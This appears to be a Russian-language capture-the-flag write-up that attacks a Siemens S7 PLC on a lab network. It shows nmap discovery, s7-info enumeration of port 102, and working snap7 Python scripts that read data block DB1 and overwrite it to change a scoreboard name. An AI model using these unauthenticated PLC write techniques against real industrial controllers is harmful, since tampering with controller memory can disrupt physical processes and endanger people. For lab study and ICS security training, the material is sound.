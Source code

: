 Первое что сделал это проверил хосты через nmap nmap -sn 10.10.14.0/24

вывод был
```
Nmap scan report for 10.10.14.2
```
Далее проверил на открытые порты этот айпи, и нашел 102,80,443,502,161,162
```
PORT STATE SERVICE 80/tcp closed http 102/tcp open iso-tsap 161/tcp closed snmp 162/tcp closed snmptrap 443/tcp closed https 502/tcp closed mbap
```
понял что нужно чекать 102 порт это iso-tsap команда nmap –script s7-info.nse -p 102 10.10.14.2 показала
```
PORT STATE SERVICE 102/tcp open iso-tsap | s7-info: | Module: 6ES7 214-1BG40-0XB0 | Basic Hardware: 6ES7 214-1BG40-0XB0 |_ Version: 4.3.1 Service Info: Device: specialized
```
понял что тут нужно юзать snap7, импортнул его, прочитал про него, и написал код который будет выводить первое имя из таблицы
```
import snap7

plc = snap7.client.Client()
plc.connect("10.10.14.2", 0, 1)
if plc.get_connected():
    try:
        # читаем весь DB1 (первые 100 байт)
        data = plc.db_read(1, 0, 100)
        
        # ищем конец названия команды по нул байту
        end_of_team = data.find(b'\x00')
        name_start = end_of_team + 1
        
        # конец имени
        end_of_name = data.find(b'\x00', name_start)

        # получаем и декодим имя
        name_bytes = data[name_start:end_of_name]
        first_name = name_bytes.decode('utf-8').split()[0]
        
        print(f"Первое имя (или тима) в списке: {first_name}")

    finally:
        plc.disconnect()
else:
    print("Не удалось подключиться к хостику")
```                                   

далее прочитал и понял что можно не просто читать, но еще и записывать. Написал код который будет заменять имя на первом месте
```
import snap7

plc = snap7.client.Client()
plc.connect("10.10.14.2", 0, 1)

if plc.get_connected():
     #перезаписываем название команды
    new_team = b"HE\x00"  # "HE" + нул байты
    plc.db_write(1, 2, new_team)  # DB1, offset=2

    # проверка
    updated_data = plc.db_read(1, 2, 3)
    print("Обновленные данные:", updated_data.hex())  # должно быть 48 45 00

    plc.disconnect()
    print("[+] Название команды изменено!")
else:
    print("пупупу")
```
и смотрим на борду, там будет наше название

